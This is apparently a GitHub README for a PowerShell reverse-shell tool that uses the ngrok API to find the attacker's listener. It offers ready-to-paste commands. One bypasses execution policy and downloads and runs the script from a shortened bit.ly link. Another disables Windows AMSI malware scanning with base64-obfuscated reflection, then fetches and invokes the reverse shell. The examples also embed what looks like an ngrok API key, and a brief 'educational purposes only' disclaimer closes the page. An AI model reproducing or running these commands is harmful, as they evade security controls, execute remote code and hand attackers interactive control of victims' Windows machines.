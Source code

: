 ## Video:
[![ScreenShot](https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/2022-06-01-18%3A57%3A38.png)](https://youtu.be/2w3Y46Z4BwE "Powershell Auto Ngrok RevShell")

## Description
```
Auto detect remote server using ngrok api
```

## Requirements:
```
Ngrok
Netcat
```

## Testing:
```
Windows 10 Version 21H2, (Build number 19044)
Windows 10 Version 20H2, (Build number 19042)
Windows 10 Version 2004, (Build number 19041)
Windows 10 Version 1909, (Build number 18363)
Windows 10 Version 1507, (Build number 10240)
```


## Example (Module):
```powershell
C:\PS> Import-Module .\Invoke-RevShell
C:\PS> Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ
```

## Example (Default):

```powershell
C:\PS> powershell -ep Bypass -c "[Net.ServicePointManager]::SecurityProtocol=Net.SecurityProtocolType]::Tls12;
                                  IEX(New-Object Net.WebClient).downloadString('https://bit.ly/3N8EZjb'); 
                                  Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ;"
```

## Example (Amsi Bypass):

```powershell
C:\PS> [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true);
C:\PS> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.SecurityProtocolType]::Tls;
C:\PS> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/Invoke-RevShell.ps1'); 
C:\PS> Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ;
```



## Disclaimer:

```
This tool is for educational purposes only.
We are not responsible for any illegal usage of this tool.
```
